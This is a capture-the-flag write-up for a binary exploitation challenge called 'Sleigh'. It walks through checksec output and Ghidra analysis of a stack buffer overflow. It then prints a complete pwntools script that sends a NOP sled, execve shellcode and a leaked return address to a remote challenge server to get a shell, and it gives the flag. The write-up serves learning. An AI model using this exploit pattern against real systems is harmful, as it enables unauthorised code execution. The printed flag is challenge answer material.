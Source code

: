 # Sleigh (Day 2)

This challenge provided us with 2 files: 
1.  **sleigh** [Executable of interest]
2.  **flag.txt** [Fake flag used for testing]

I first checked the security protections of **sleigh**:
![checksec](https://user-images.githubusercontent.com/71312079/151155488-c33bce48-9f07-4988-9852-229e6ca33628.png)

Hmm... unlike day 1's challenge we now have PIE enabled but NX is disabled, leading me to 2 observations:
  * Shellcode can be loaded onto the stack and executed 
  * We somehow need to obtain the *base address* of the stack since it changes every time the file is run

I then proceed to run **sleigh** in bash and am greeted with this prompt:
![sleigh](https://user-images.githubusercontent.com/71312079/151155500-cdf2e7e4-51ec-4693-ad8a-ebc9df2bdf95.png)

Selecting **2** would terminate the program so I select **1** and proceed to the next screen: 

![sleigh2](https://user-images.githubusercontent.com/71312079/151155504-4cd19bc3-c778-449b-8aca-a43c5a2336bf.png)

Right away I notice that I am provided with an address at the end of the first line: *0x7ffde4266ec0*, which changes everytime I run the program. Could this be the base address that I was looking for?

Looking at the **repair** function in ghidra, I see that the aforementioned address is actually the address of a variable called **local_48**.

![repair](https://user-images.githubusercontent.com/71312079/151155493-52d9100c-f818-44de-8010-9347aff0e9ad.jpg)

Navigating to the address of **local_48**, I see that it is likely a 64 byte array that seems vulnerable to a buffer overflow.

![local48](https://user-images.githubusercontent.com/71312079/151156975-aec047b3-78ba-433f-80c6-9829af8d7f88.png)

From all the findings above, I now devise a strategy to obtain the flag:
1. Obtain the offset needed to overwrite the buffer until the return address
   * I used the same method as day 1's challenge [Mr Snowy](../Mr%20Snowy/README.md), which also happens to be the same value of **72**.
2. Insert the provided base address so that the function returns to the top of the stack 
3. Place the shellcode somewhere in the buffer so that it will be executed next after the step *2*
4. Use a *nop sled* to ensure that the shellcode even if the return address is not exact
    * Length of nop sled = Offset [72] - length of shellcode [34] = **38**

I then crafted the following python script:

```python
from pwn import *

p = remote('178.128.35.31', 31238)
offset = 72
p.recvuntil("Abandon")
p.recvuntil("\n")
p.sendline('1')
p.recvuntil(' [')
address = p.recvuntil('\n')[:-2]

for  i in range(2):

	p.recvuntil('\n')

retaddress = p64(int(address,16))

shellcode = b'\xeb\x0b\x5f\x48\x31\xd2\x52\x5e\x6a\x3b\x58\x0f\x05\xe8\xf0\xff\xff\xff\x2f\x2f\x2f\x2f\x62\x69\x6e\x2f\x2f\x2f\x2f\x62\x61\x73\x68\x00'

nops = b'\x90'* 38
payload = [nops, shellcode,retaddress]
payload = b"".join(payload)
p.sendline(payload)
p.interactive()
```

Running the code above provides us with a shell where we can execute **"cat flag.txt"** and obtain the flag.

Flag: `HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}`